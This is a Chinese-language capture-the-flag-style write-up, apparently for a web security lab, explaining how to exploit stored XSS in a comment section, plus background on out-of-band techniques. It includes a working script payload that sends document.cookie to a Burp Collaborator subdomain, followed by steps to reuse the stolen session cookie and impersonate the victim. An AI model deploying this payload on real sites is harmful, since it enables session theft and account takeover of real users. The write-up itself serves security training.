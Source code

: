 # 题意
![](pic/8-1.png)

该实验中的评论区存在存储型XSS。一个模拟的受害用户会浏览所有已发出的评论。利用漏洞获取受害者的session cookie，然后伪装成受害者登录。
# 解题思路
step1:打开collaborator模块并复制生成的子域名
![](pic/subdomain.png)


step2:在评论区注入payload
```
<script>
fetch('https://BURP-COLLABORATOR-SUBDOMAIN', {
method: 'POST',
mode: 'no-cors',
body:document.cookie
});
</script>
```

其中BURP-COLLABORATOR-SUBDOMAIN替换成第一步复制的子域名


step3：获取受害用户cookie

回到collaborator界面，点击poll now，从http消息中获得受害用户cookie
![](pic/session.png)

step4:利用intercept模块，修改请求中的cookie即可
# 知识点

## 利用XSS获取cookie

大多数web应用程序都用cookie来处理session。攻击者可以利用xss漏洞来发送受害者的cookie到自己的域，然后手动注入cookie到浏览器里从而伪装成受害者。

在实际运用中，该方法可能遇到如下限制：

1. 受害者可能未登录


2. 应用程序用HttpOnly标志将cookie从JS中隐藏了。

3. session可能加密

4. session可能超时。





## OOB漏洞
带外通道技术（Out-Of-Band）
带外通道技术（OOB）让攻击者能够通过另一种方式来确认和利用没有直接回显的漏洞。
这一类漏洞中，攻击者无法通过恶意请求直接在相应包中看到漏洞的输出结果。
带外通道技术通常需要脆弱的实体来生成带外的TCP/UDP/ICMP请求，然后，攻击者可以通过这个请求来提取数据。

正常的通信信道（Inband）如下图

![](pic/inband.png)

oob如下图

![](pic/oob.png)


## burpsuite collaborator模块

burpsuite的collaborator模块扮演的就是上图中的黑客的服务器角色。主要使用流程在解题思路中有描述，不赘述。